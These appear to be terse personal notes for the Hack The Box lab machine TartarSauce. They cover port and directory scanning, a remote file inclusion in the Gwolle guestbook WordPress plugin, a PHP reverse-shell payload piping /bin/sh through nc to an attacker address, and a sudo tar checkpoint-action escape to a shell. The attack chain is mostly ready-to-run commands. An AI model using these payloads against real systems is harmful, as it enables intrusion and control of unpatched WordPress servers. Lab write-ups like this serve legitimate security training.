








# TartarSauce

# Scanning
furious 10.10.10.88
nmap -sC -sV -p 80 -Pn -n 10.10.10.88 -oN targeted 



# 80 



wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.88/webservices/FUZZ





## seclist fuzz plugins
wfuzz -c --hc 403,404 -t 100 -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ


searchsploit gwolle
searchsploit -x php/webapps/38861.txt

we are gonna use this:
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

we create a file named like wp-load.php
```bash
<?php
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f');
?>
```

we run a python3 server, wait for a nc connection on 4444
and then we enter in 
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14


```bash
sudo -l

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

systemctl list-timers
procmon.sh
pspy





